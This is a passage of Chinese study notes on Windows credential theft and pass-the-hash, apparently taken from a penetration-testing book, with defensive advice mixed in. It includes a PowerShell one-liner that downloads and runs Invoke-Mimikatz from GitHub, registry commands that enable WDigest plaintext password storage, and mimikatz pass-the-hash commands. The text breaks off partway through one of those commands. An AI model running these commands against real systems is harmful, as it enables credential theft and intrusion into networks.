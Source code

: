 ```powershell
import-module .\Get-PassHashes.ps1
```
+ 使用powershell远程加载mimikatz抓取散列值和明文密码
`powershell.exe IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/mattifestation/PowerSploit/master/Exfiltration/Invoke-Mimikatz.ps1'); Invoke-Mimikatz`
+ 单击密码抓取的防范方法(223页)
	+ windows2012及以上版本默认关闭wdigest,无法从内存中获取明文密码,可以通过修改注册表的方式,再服务器下次重启之后获取(223页)
	+ windows2012以下,安装KB2871997补丁,无法获取明文密码
	1. CMD
	```cmd
	//开启wdigest auth
	reg add \hklm\system\currentcontrolset\control\securityproviders\wdigest /v uselogoncredential /t REG_DWORD /d 1 /f
	//关闭wdigest auth
	reg add \hklm\system\currentcontrolset\control\securityproviders\wdigest /v uselogoncredential /t REG_DWORD /d 0 /f
	```
	2. powershell
	```powershell
	//开启wdigest auth
	set-itemproperty -path hklm:\system\currentcontrolset\control\securityproviders\wdigest -Name uselogoncredential -Type DWORD -Value 1
	//关闭wdigest auth
	set-itemproperty -path hklm:\system\currentcontrolset\control\securityproviders\wdigest -Name uselogoncredential -Type DWORD -Value 0
	```
### 5.2.3 使用Hashcat获取密码(224页)
### 5.2.4 如何防范攻击者抓取明文密码和散列值
+ 设置Active Directory 2012 R2功能级别
> windows server 2012 R2新增了一个名为"受保护的用户"(Protected Users)的用户组,只需要将需要保护的用户放入该组,攻击者就无法使用mimikatz等工具抓取明文密码和散列值
+ 安装KB2871997
> 此补丁是微软用来解决psexec或者IPC远程查看(C$)问题的补丁,能使本地帐号不再被允许远程接入计算机系统,但系统默认的本地管理员帐号administrato这个SID为500的用户列外--即使将administrato改名,该帐号的SID仍为500,攻击者仍然可以使用横向攻击方法获取内网中其他计算机的控制权,安装KB2871997后,仍需禁用默认的administrato帐号,以防止哈希传递攻击
+ 通过修改注册表禁止在内存中存储明文密码
```cmd
//在注册表中添加一个键值,将其设置为0
reg add \hklm\system\currentcontrolset\control\securityproviders\wdigest /v uselogoncredential /t REG_DWORD /d 0
//查询
reg query \hklm\system\currentcontrolset\control\securityproviders\wdigest /v uselogoncredential
```
+ 防御mimikatz攻击(231页)
> mimikatz 在抓取散列值或明文密码时需要Debug权限,将拥有Debug权限的本地管理员从administrato组中删除,重启即可
## 5.3 哈希传递攻击分析与防范
### 5.3.1 哈希传递攻击的概念(231页)
> windows server 2012 R2及之后的版本,默认在内存中不会记录明文密码
### 5.3.2 哈希传递攻击分析
+ mimikatz
> dir后跟要使用的主机名,而不是IP,否则会提示用户名或密码错误
> AES-128密钥也可以用来进行哈希传递
> 使用AES密钥对远程主机进行哈系传递的前提是在本地安装KB2871997
> 如果安装了KB2871997,仍然可以使用SID为500的用户的NTLM Hash进行哈希传递
> mimikatz需要运行在本地管理球员权限下
	+ 使用NTLM Hash进行哈希传递
	```cmd
	privilege::debug
	sekurlsa::pth /user:用户名 /domain:域名 /ntlm:NTLMHash